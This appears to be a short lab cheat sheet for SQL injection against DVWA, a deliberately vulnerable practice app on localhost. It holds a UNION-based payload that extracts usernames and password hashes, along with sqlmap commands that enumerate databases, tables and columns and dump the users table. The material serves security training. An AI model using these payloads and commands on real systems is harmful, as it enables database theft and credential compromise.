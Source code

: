 SQL
===

### SQL Injection

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

Paste a hash in your web browser, trying to decrypt it.

### sqlmap

[sqlmap](http://sqlmap.org/) is an open source penetration testing tool that
automates the process of detecting and exploiting SQL injection flaws and
taking over of database servers.

#### Show Databases

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" --dbs
```

#### Show Tables

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa --tables
```

#### Show Columns

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa -T users --columns
```

#### Dump Data

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa -T users --dump
```

### Blind SQL Injection

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli_blind/?id=&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>"
```
